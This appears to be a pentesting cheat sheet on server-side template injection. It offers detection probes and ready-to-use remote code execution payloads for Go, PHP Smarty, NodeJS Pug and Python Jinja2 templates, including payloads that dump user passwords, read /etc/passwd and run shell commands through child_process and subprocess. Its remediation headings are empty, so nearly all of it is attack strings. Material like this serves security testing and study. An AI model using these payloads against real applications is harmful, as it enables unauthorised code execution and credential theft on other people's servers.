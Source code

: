 # Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

# https://book.hacktricks.xyz/

## Payloads Fuzzing: ${{<%'"}}%

## PoC Payload for Identification: ${7*'7'}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads of different templates:

## Go SSTI

#### 1) {{ .Password }} (Fetches the passwords of all users) Hint: It depends on the struct the application has been made of to use the correct one! 

#### 2) {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

#### 3) {{ .ExecuteCmd "whoami" }} Executes commands

#### 4) {{ . }} (Dumps variables)

## PHP - Smarty

#### PoC Enumeration Payload

    {'Hello'|upper}
  
#### RCE Payload

    {system("id")}

## NodeJS - Pug

### PoC Payload

    #{7*7}

### RCE Payload

    #{root.process.mainModule.require('child_process').spawnSync('id').stdout}

### SpawnSync RCE Payload with arguments

    #{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}

## Python - Jinja2

### PoC Payload

    {{7*7}}

### RCE Payload

    {{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("id")}}

### check_output RCE Payload with arguments

    {{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['ls', '-lah'])}}
